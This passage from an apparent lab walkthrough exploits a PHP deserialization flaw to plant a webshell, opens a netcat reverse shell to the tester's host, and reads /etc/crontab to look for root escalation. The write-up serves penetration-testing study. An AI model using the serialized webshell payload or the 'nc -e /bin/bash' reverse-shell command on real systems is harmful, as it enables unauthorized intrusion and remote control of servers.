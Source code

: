 The `Log` class has `__destruct()` function which outputs a file.<br>
Intercepting the POST request and sending this parameter, we can upload a webshell `shell.php`.
```shell
param=O:3:"Log":2:{s:8:"filename";s:31:"/var/www/html/scriptz/shell.php";s:4:"data";s:60:" <?php echo '<pre>'; system($_GET['cmd']); echo '</pre>'; ?>";}
```
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-05-02/2020-05-01-15-40-21.png)
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-05-02/2020-05-01-15-38-20.png)

Using `curl` with GET parameter, we can see that we have uploaded our webshell successfully.
```shell
root@kali:~# curl http://192.168.0.3/scriptz/shell.php?cmd=id
 <pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

Then, run the following command. We have to fill out the space with `%20`.
```shell
root@kali:~# curl http://192.168.0.3/scriptz/shell.php?cmd=nc%20-e%20/bin/bash%20192.168.0.1%204444
```

Now we got a user shell as `www-data`.
```shell
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.0.1] from (UNKNOWN) [192.168.0.3] 59721
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty;pty.spawn("/bin/bash")'
www-data@pipe:/var/www/html/scriptz$ 
```

## 3. Getting Root

By taking a look at `/etc/crontab`, we can find that 
1. `/root/create_backup` is running in every minutes.
2. `/usr/bin/compress.sh` is running in every 5 minutes as `root` user.

```shell
www-data@pipe:/tmp$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
```

